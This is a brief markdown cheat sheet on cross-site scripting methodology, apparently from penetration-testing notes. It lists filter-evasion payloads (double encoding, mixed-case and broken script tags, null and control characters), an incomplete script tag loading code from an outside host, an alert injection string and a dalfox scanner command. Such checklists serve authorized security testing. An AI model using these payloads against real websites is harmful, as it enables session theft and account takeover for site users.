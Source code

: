 # XSS Methodology


Use basic Payloads according to the field

if reflected as `&lt;` or `%3C` do double encoding

if `<script>` converted as  `&lt;script&gt;` then give `%26lt;script%26gt;` may gives us `<script>`

try `svg` payload if some are blacklisted 

if `<script>` is blocked try for incomplete payload. `<script src=//mysite.com?c=` 

Encoding `<%00h2>` `%0d`, `%0a`, `%09` between the payload.

Bypass blacklist hardcoded strings `</script/x>` `<ScRipt>`

Try `%09 %07 %0d%0a` unicode chars

`‘);alert(‘example’);`

```
echo www.example.com/query?q=Payloadpath | dalfox pipe
```

```
Knoxss
```


